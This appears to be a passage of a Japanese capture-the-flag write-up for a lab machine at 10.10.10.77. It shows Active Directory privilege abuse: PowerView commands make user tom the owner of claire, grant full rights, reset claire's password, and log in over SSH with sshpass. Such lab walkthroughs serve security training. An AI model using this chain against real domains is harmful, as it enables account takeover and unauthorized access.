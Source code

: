 ## tom -> claire

tomは**WriteOwner**の権限をclaireに対して持ってる。

![スクリーンショット 2022-01-15 11 50 15](https://user-images.githubusercontent.com/85237728/149606210-4c9591c9-8ec9-4e90-9984-95899be437ad.png)

claireのオーナーをtomに設定：

```
PS C:\Users\tom> Set-DomainObjectOwner -Identity claire -OwnerIdentity tom
```

tomに、claireのことをGenericAllできるように権限を与える：

```
PS C:\Users\tom> Add-DomainObjectAcl -PrincipalIdentity tom -TargetIdentity claire -Rights All
```

これでtomはclaireのパスワードを再設定できる：

```
PS C:\Users\tom> $UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
PS C:\Users\tom> Set-DomainUserPassword -Identity claire -AccountPassword $UserPassword
```

このclaireのクリデンシャルでclaireにssh接続：

```
┌──(kali㉿kali)-[~]
└─$ sshpass -p 'Password123!' ssh cliare@10.10.10.77
```

（sshpassコマンドは`sudo apt install sshpass`でダウンロード可能）
